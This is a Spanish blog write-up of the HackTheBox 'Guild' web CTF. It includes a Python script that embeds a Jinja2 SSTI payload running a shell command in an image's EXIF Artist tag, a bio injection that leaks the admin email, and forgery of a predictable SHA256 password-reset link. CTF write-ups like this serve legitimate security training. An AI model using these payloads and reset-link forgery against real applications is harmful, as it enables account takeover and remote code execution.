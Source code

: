 ```yaml
---
title: Guild Web CTF - HackTheBox
date: 2025-02-14 11:00:00 +0000
categories: [HacktheBox, CTF, Web]
tags: [HacktheBox, CTF, Web]
image:
  path: /assets/img/cabeceras_genericas/htb.jpg
  alt: Guild Web CTF - HackTheBox
description: >
  Guía de explotación de vulnerabilidades en el CTF HackTheBox Guild Web.
pin: false  
toc: true   
math: false 
mermaid: false 
---
```


# Creación del usuario

![alt text](/assets/img/posts/guild-ctf-htb/image.png)

Creamos un usuario cualquiera de forma sencilla.

Una vez creado podemos iniciar sesión.

![alt text](/assets/img/posts/guild-ctf-htb/image-1.png)

# Creación del payload

Para poder obtener la flag vamos a necesitar crear una imagen .jpg con un tag "artist" 

Script para crear la imagen:

```python
from PIL import Image
import piexif

def create_exif_exploit():
    # Crear una imagen nueva
    img = Image.new('RGB', (50, 50), color='white')
    
    # Crear datos EXIF - El tag Artist está en el IFD principal (0th)
    zeroth_ifd = {
        piexif.ImageIFD.Artist: "{{config.__class__.__init__.__globals__['os'].popen('cat flag.txt').read()}}".encode('utf-8')
    }
    
    # Generar el diccionario EXIF completo
    exif_dict = {"0th": zeroth_ifd, "Exif": {}, "1st": {}, "thumbnail": None, "GPS": {}}
    
    # Convertir el diccionario a bytes
    exif_bytes = piexif.dump(exif_dict)
    
    # Guardar la imagen con los datos EXIF
    img.save('exploit.jpg', 'JPEG', exif=exif_bytes)
    print("Imagen creada con éxito: exploit.jpg")

if __name__ == "__main__":
    create_exif_exploit()

```

Con este script crearemos la imagen con el tag "artist" y podremos obtener la flag que se encuentra en la raiz de la web.

![alt text](/assets/img/posts/guild-ctf-htb/image-2.png)

Una vez subida la imagen para poder ejecutar el payload hay que conseguir acceso a la cuenta de administrador.

# Acceso a la cuenta de administrador

Como sabemos por el código de la web, la cuenta de administrador se genera automáticamente al crear el docker además de que la cuenta de mail generada así como la contraseña son 8 carácteres en hexadcimal generados aleatoriamente.

Esto imposibilita la idea de realizar un ataque de fuerza bruta.

Teniendo esto en cuenta y analizando el comportamiento de la web podemos realizar una inyección SSTI en la bio del usuario que tenemos registrado para poder obtener la el mail de la cuenta de administrador.

## Análisis de código

Si bien en el template de la bio la inyección no se puede llevar a cabo, en la generación de página para compartir el perfil de usuario la situación es diferente.

```python
@views.route("/user/<link>")
def share(link):
    query = Validlinks.query.filter_by(validlink=link).first()
    if query:
        email = query.email
        query1 = User.query.filter_by(email=email).first()
        bio = Verification.query.filter_by(user_id=query1.id).first().bio
        temp = open("/app/website/templates/newtemplate/shareprofile.html", "r").read()
        return render_template_string(temp % bio, User=User, Email=email, username=query1.username)
```

Si observamos las variables que se le pasan al render_template_string, vemos que se pasa el modelo User completo. En Flask/SQLAlchemy podemos usar esto para hacer queries. Por lo tanto podríamos intentar pasar una query consultando el correo de la cuenta de administrador.

`User.query.filter_by (username='admin').first().email`

## Exploit

![alt text](/assets/img/posts/guild-ctf-htb/image-3.png)

Hacemos click donde dice "share profile" y copiamos el link.

![alt text](/assets/img/posts/guild-ctf-htb/image-4.png)

![alt text](/assets/img/posts/guild-ctf-htb/image-5.png)

`4758505255527057@master.guild`

Ahora que tenemos el mail vamos a explotar el forget password.

# Explotando el forget password

Ahora que sabemos el mail de administrador podemos forzar el cambio de contraseña explotando una vulnerabilidad que hemos econtrado en el código.

Necesitamos primero indicar que hemos olvidado la contraseña de la cuenta de administrador con su mail.

Volvemos al login y hacemos click en "Forgot password?", introducimos el mail de administrador y pulsamos el botón "Send".

![alt text](/assets/img/posts/guild-ctf-htb/image-6.png)

Ahora como podemos ver en el código fuente, se genera un hash sha256 con el mail de la cuenta de administrador y esto se pasa a la función changepasswd.

1. Funcion para cambiar generando el hash:

```python
@views.route("/forgetpassword", methods=["GET", "POST"])
def forgetpassword():
    if request.method == "POST":
        email = request.form.get("email")
        query = User.query.filter_by(email=email).first()
        if query:
            # El hash es simplemente el SHA256 del email
            reset_url = str(hashlib.sha256(email.encode()).hexdigest())
```

2. Función para cambiar la contraseña:

```python
@views.route("/changepasswd/<Hash>",methods=["GET", "POST"])
def changepasswd(Hash):
    query = Validlinks.query.filter_by(validlink=Hash).first()
```

Sabiendo esto y que ya hemos generado en la base de datos la petición de cambio de contraseña podemos hacer el siguiente ataque.

Creamos exactamente la misma función que genera el hash del codigo.

```python
import hashlib

# Reemplaza esto con el email que obtuviste
admin_email = "4758505255527057@master.guild"

# Calcular el hash
reset_url = hashlib.sha256(admin_email.encode()).hexdigest()
print(reset_url)
```

Copiamos el hash y lo pasamos a la función changepasswd.

```bash
❯ python3 hashmail.py
336337986c1d078c19ef0aecef621d163fc5acc8feebde5efb2ffd79704f542e
```	
![alt text](/assets/img/posts/guild-ctf-htb/image-7.png)

Con esto conseguimos cambair la contraseña del usuario administrador.

# Obtención de la flag

Ahora que acceso al panel de verificación de imágenes, podemos obtener la flag.

![alt text](/assets/img/posts/guild-ctf-htb/image-8.png)

Si hacemos click en verify ejecutaremos el SSTI y obtendremos la flag.

![alt text](/assets/img/posts/guild-ctf-htb/image-9.png)

